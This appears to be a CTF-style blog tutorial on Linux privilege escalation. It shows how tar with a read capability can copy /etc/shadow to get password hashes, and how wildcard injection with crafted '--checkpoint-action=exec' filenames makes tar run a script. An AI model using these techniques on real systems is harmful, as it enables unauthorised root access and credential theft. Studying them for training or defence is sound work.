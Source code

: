 ```yaml
---
layout: post
title:  "Linux Privilege Escalation"
date:   2020-04-15 14:20:58 +0530
categories : [CTF]
tags: [linux, infrastructure]
---
```


{% include toc %}
# Linux Capabilities

Refs:

* <https://www.kernel.org/doc/ols/2008/ols2008v1-pages-163-172.pdf>
* <https://www.andreasch.com/2018/01/13/capabilities/>
* [Pentester Academy Walkthrough]({{ "files/walkthrough-1343.pdf" | relative_url}})

Let us take an example
```
student@localhost:~$ getcap -r / 2>/dev/null 
/bin/tar = cap_dac_read_search+ep
```
Because we are running this on all files of the system, there might be some files on which the current user won't have access. And, trying to access those will throw an error. So,  `2>/dev/null` is to redirect the errors to /dev/null instead of printing them on the console. It is not necessary to use, it is just a trick that most people use to avoid printing the errors.

Here, we see that `tar` program has the capability to read and search, while as a normal user we don't have the root read access, we can verify the same by trying to access the `/etc/shadow` file

```
$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```

# All about `tar`
## Flags / Options
In order to create a .tar file we can use following flags :
```
-c, --create : create a new archive
-x, --extract, --get : extract files from an archive
-f, --file=ARCHIVE : use archive file or device ARCHIVE
-j, --bzip2 : filter the archive through bzip2
-v, --verbose : verbosely list files processed
-z, --gzip :filter the archive through gzip
``` 
## Tar & zip
Note : `-f` flag has to be used in the end, immediately preceding the destination `filename`.

```
$ tar -cvf ~/shadow.tar shadow
$ ls
shadow.tar
```
If we also want to zip the file we can use either `-z` or `-j` flag
```
$ tar -cvzf ~/shadow.tar.gz shadow
$ ls 
shadow.tar.gz
```
## Untar

In order to extract the `.tar` file we need to use `-x`
```
$ tar -xvf ./shadow.tar
$ ls
shadow
```
Now we can read the contents of the file by using `cat shadow`. It will enable us to extract the hashes of the root user password. 

# `-` in filename
Refs :
* <https://overthewire.org/wargames/bandit/bandit2.html>
* <https://dynamicparallax.wordpress.com/2015/09/22/bandit-level-1-to-level-2/>

Using `-` as a filename means stdin/stdout as a convention that a lot of programs use. When cat sees the string `–` as a filename, it treats it as a synonym for stdin.
What will happen in our case is cat `–` echoes stdin, in this case keyboard user input, to stdout, the terminal window.

```
$ echo "Hello World" > -
$ cat -
hi
hi
good day
good day
^C
$ cat ./-
Hello World
```

The other problem is that Linux command options usually start with a dash ( - ). If you try to type that filename on a command line, the command might think you’re trying to type a command option.

# `--` and `tar`
Let us create few files for archiving and a bash script for printing `Hello World`.

```
$ touch 1 2 3 4 5
$ cat first.sh 
#!/bin/sh
echo Hello World       
```
Let us create two more empty files
```
$ echo "" > "--checkpoint-action=exec=sh first.sh"
$ echo "" > --checkpoint=1
```
`checkpoint` is an optional argument in the `tar` command
```
--checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
--checkpoint-action=ACTION : execute ACTION on each checkpoint
``` 
Now, `-` or `--` in filenames are treated as arguments to the command line utilities. `tar` command, instead of reading them as files for archiving will treat them as arguments. We have seen the case of `cat` with `-filename` previously. 

The directory at this point looks like this
```
$ ls -la
total 20
drwxr-xr-x  2 student student 4096 Apr 15 22:57  .
drwxr-xr-x 42 student student 4096 Apr 15 22:34  ..
-rw-r--r--  1 student student    0 Apr 15 20:36  1
-rw-r--r--  1 student student    0 Apr 15 20:36  2
-rw-r--r--  1 student student    0 Apr 15 20:36  3
-rw-r--r--  1 student student    0 Apr 15 20:36  4
-rw-r--r--  1 student student    0 Apr 15 20:36  5
-rw-r--r--  1 student student    1 Apr 15 20:44 '--checkpoint=1'
-rw-r--r--  1 student student    1 Apr 15 20:43 '--checkpoint-action=exec=sh first.sh'
-rwxrwxrwx  1 student student   81 Apr 15 20:39  first.sh
```
Let us run the `tar` command and see the output
```
$ tar -cvf myfiles.tar *
1
2
3
4
5
first.sh
Hello World
```
We see that our bash script `first.sh` is run. If we have to see the contents of the `.tar` file
```
$ tar -tvf myfiles.tar 
-rw-r--r-- student/student   0 2020-04-15 20:36 1
-rw-r--r-- student/student   0 2020-04-15 20:36 2
-rw-r--r-- student/student   0 2020-04-15 20:36 3
-rw-r--r-- student/student   0 2020-04-15 20:36 4
-rw-r--r-- student/student   0 2020-04-15 20:36 5
-rwxrwxrwx student/student  81 2020-04-15 20:39 first.sh
```
Here, we can see that the files starting with `--` are not included into the `.tar` file.

# `setuid`

Refs :
* <https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits>
* [Pentester Academy Walkthrough]({{ "files/walkthrough-73.pdf" | relative_url}})

